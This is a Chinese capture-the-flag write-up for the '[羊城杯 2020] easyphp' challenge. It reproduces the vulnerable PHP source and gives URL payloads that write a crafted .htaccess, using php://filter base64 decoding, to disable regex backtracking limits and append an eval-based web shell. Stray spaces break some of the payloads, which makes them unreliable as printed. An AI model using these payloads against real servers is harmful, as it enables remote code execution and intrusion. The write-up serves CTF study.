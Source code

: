 # 原创
：  [羊城杯 2020]easyphp

# [羊城杯 2020]easyphp

#### [羊城杯 2020]easyphp

## easyphp

### 考点

> 
.htaccess的利用


### 思路

> 
在目录下，只有index.php能够作为php解析执行，于是我们可以写一个.htaccess让index.php自动包含执行代码；<br/> 思路一：向.htaccess文件写入shell，并且用auto_prepend_file包含.htaccess，但是file关键字被ban了，可以用换行绕过，结尾要用\处理content中的\n；<br/> 思路二：利用.htaccess文件特性，不过这次是通过设置php_value来设置preg_macth正则回溯次数；先写入.htaccess，再直接通过php://filter伪协议写入一句话


### Payload

> 
代码审计


```
&lt;?php
    $files = scandir('./'); 
    foreach($files as $file) {
        if(is_file($file)){
            if ($file !== "index.php") {
                unlink($file);
            }
        }
    }
    if(!isset($_GET['content']) || !isset($_GET['filename'])) {
        highlight_file(__FILE__);
        die();
    }
    $content = $_GET['content'];
    if(stristr($content,'on') || stristr($content,'html') || stristr($content,'type') || stristr($content,'flag') || stristr($content,'upload') || stristr($content,'file')) {
        echo "Hacker";
        die();
    }
    $filename = $_GET['filename'];
    if(preg_match("/[^a-z\.]/", $filename) == 1) {
        echo "Hacker";
        die();
    }
    $files = scandir('./'); 
    foreach($files as $file) {
        if(is_file($file)){
            if ($file !== "index.php") {
                unlink($file);
            }
        }
    }
    file_put_contents($filename, $content . "\nHello, world");
?&gt;

```

> 
方法一：向.htaccess文件写入shell，并且用auto_prepend_file包含.htaccess，详细见[之前的文章](https://blog.csdn.net/LYJ20010728/article/details/116541325)


<img alt="在这里插入图片描述" src="https://img-blog.csdnimg.cn/20210517210918674.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L0xZSjIwMDEwNzI4,size_16,color_FFFFFF,t_70#pic_center"/><br/> <img alt="在这里插入图片描述" src="https://img-blog.csdnimg.cn/20210517210926122.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L0xZSjIwMDEwNzI4,size_16,color_FFFFFF,t_70#pic_center"/>

> 
方法二：绕过preg_math的配置，见[之前的文章](https://blog.csdn.net/LYJ20010728/article/details/116538926)


> 
先写入.htaccess<br/> `?content=php_value%20pcre.backtrack_limit%200%0aphp_value%20pcre.jit%200%0a%23\&amp;f ilename=.htaccess`


> 
再直接通过php://filter伪协议写入一句话<br/> `?filename=php://filter/write=convert.base64-decode/resource=.htaccess&amp;content=cGhwX3ZhbHVlIHBjcmUuYmFja3RyYWNrX2xpbWl0IDAKcG hwX3ZhbHVlIHBjcmUuaml0IDAKcGhwX3ZhbHVlIGF1dG9fYXBwZW5kX2ZpbGUgLmh0YWNjZXNzCiM8P3 BocCBldmFsKCRfR0VUWzFdKTs/Plw&amp;1=phpinfo();`

